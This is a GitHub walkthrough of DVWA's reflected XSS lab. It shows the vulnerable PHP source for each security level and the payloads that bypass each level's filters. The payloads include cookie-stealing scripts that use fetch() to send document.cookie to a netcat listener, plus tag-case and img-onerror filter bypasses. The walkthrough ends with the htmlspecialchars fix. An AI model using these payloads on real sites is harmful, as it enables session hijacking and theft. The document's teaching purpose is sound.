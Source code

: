 # XSS (Reflected)

## About

> "Cross-Site Scripting (XSS)" attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.
> 
> An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.
> 
> Because its a reflected XSS, the malicious code is not stored in the remote web application, so requires some social engineering (such as a link via email/chat).

Source: DVWA Documentation

## Low Security
The page is asking for an input of our name and then is reflected back on the page. So if we type `Harry` the application will say `Hello Harry`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr1.png?raw=true">
</p>

But if we type instead an XSS payload, then this will happen:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr2.png?raw=true">
</p>

The payload used: `Hacked"<script>alert(1)</script>`.<br/>
A lot of XSS payloads can be found online, some will work, some will not, depends on the filters implemented. The idea is that instead of input some valid text, we input some javascript that will be executed by the application.<br/>
Because our input is also reflected in the URL, we can send it to anyone and once is accessed, the script will be executed.<br/>
The URL: `http://localhost/DVWA/vulnerabilities/xss_r/?name=Hacked%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E#`.<br/>

In our payload, the impact is not harmful, we only triggered an alert box with number 1. This payload is usually used to confirm the presence of an XSS attack.<br/>
But more dangerous things can be done, for example rewriting the source code in order to ask the user to insert his password to continue. But the password is sent to the attacker.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr3.png?raw=true">
</p>

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr4.png?raw=true">
</p>

The source code:
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```
For this level, we have no restrictions implemented.

Let's also solve the objective of the challenge, which is: `Steal the cookie of a logged in user.`.<br/>
We can use the following payload: `<script>fetch('http://127.0.0.1:4444?cookie=' + btoa(document.cookie) );</script>`.
This will send the cookie of the current user to the attacker address, in a base64 format. In order to listen for this message, we can start a listener with netcat: `nc -lvnp 4444`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr6.png?raw=true">
</p>

## Medium Security
For Medium level we have this filter implemented:
```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
```
This is not enough, because we can easily bypass it using uppercase letters: `<sCRipt>alert('XSS')</sCRipt>`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr5.png?raw=true">
</p>

## High Security
For High level we have this filter implemented:
```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```
Again, this is not a good implementation, because there are many XSS payloads that are not using the `<script>` tag.<br/>
The vulnerability can be executed using: `"<img src=x onerror=alert('XSS')>`. This payload will trigger an error with alert box, if the source of the image is not found.

For the objective of the challenge, we can use a netcat listener on port 4444 and the following payload: `<img src=x onerror='fetch("http://127.0.0.1:4444/?cookie=" + document.cookie)'>`.

## Impossible Security
Source code:
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
For the Impossible level, we have Anti-CSRF token implemented and our input is verified with `htmlspecialchars()` function. This function will convert the special HTML characters in order to not be interpreted as HTML valid code.<br/>
For example `&` becomes `&amp;`, `"` becomes `&quot;`, and so on.<br/>
Much more, in Impossible level the `X-XSS-Protection` header is not set to 0 anymore. This header stops pages from loading when detects reflected cross-site scripting (XSS) attacks. Nowadays `Content-Security-Policy` header is preferred instead.<br/>
In this case, we will not be able to use any special characters to alterate the application's code. 